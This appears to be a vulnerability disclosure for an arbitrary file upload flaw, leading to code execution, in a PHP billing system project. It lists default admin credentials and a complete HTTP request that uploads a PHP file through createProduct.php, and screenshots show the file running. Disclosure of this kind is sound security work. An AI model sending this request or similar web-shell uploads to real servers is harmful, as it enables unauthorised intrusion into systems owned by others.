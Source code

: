 # Billing System Project v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: Mogui Dong

vendors: https://www.sourcecodester.com/php/14831/billing-system-project-php-source-code-free-download.html

The program is built using the xmapp-php8.1 version

Login account: mayurik/rootadmin (Super Admin account)

Vulnerability url: ip/phpinventory/php_action/createProduct.php

Loophole location: Billing System Project's createProduct.php file exists arbitrary file upload (RCE)

Request package for file upload：

```sql
POST /phpinventory/php_action/createProduct.php HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.88/phpinventory/add-product.php
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------992928208515
Content-Length: 1010

-----------------------------992928208515
Content-Disposition: form-data; name="currnt_date"


-----------------------------992928208515
Content-Disposition: form-data; name="productImage"; filename="hackl.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------992928208515
Content-Disposition: form-data; name="productName"

1
-----------------------------992928208515
Content-Disposition: form-data; name="quantity"

1
-----------------------------992928208515
Content-Disposition: form-data; name="rate"

1
-----------------------------992928208515
Content-Disposition: form-data; name="brandName"

2
-----------------------------992928208515
Content-Disposition: form-data; name="categoryName"

1
-----------------------------992928208515
Content-Disposition: form-data; name="productStatus"

2
-----------------------------992928208515
Content-Disposition: form-data; name="create"


-----------------------------992928208515--

```

The files will be uploaded to this directory
![image](https://user-images.githubusercontent.com/54017627/191211139-e42ca006-6bff-4eac-bbce-2b7fceb59f1b.png)



We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/191211438-46a65346-5824-4c9c-a667-bea1ac251a64.png)


